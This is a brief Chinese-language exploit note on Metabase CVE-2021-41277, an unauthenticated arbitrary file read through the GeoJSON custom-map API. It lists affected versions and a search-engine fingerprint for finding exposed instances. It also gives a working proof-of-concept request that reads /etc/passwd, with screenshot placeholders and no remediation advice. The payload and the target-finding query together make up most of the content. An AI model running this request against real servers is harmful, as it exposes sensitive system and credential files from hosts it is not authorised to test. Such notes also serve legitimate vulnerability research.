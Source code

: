 # Metabase geojson 任意文件读取漏洞 CVE-2021-41277

# Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

```
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

## 网络测绘

```
app="metabase"
```

## 漏洞复现

登录页面

![image-20220524152541900](/images/202205241525945.png)

验证POC

```
/api/geojson?url=file:/etc/passwd
```

![image-20220524152721994](/images/202205241527087.png)

